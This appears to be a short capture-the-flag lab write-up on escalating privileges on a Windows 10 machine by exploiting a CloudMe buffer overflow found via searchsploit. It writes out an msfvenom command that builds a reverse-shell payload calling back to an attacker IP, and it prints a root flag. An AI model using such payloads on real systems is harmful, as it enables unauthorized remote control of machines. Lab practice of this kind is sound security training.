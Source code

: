 running winpeas
OS Name:                   Microsoft Windows 10 Enterprise                                                                    
found a cloudme service running on the server 
checking serachsploit for cloudme and we found a [BOF] script 
changing the payload in the script and adding my own msfvenom
`msfvenom -a x86  -p windows/shell_reverse_tcp LHOST=10.10.16.7 LPORT=9003 -b '\x00\x0A\x0D' -f python -v payload`
![[Pasted image 20230228211703.png]]
changing payload and adding our new generated payload 
![[Pasted image 20230228211728.png]]

script to get a shell back using [[03 Commands/Linux/Pivoting]] to tunnel the service to my machine because windows machine doesn't have python so i cant run the script on the server 
![[Pasted image 20211007231336.png]]
![[Pasted image 20211007231353.png]]
and we are root!
![[Pasted image 20211007230727.png]]
#rootflag 77df67ea22129ca52d18bd9a1c421280
![[Pasted image 20211007230536.png]]
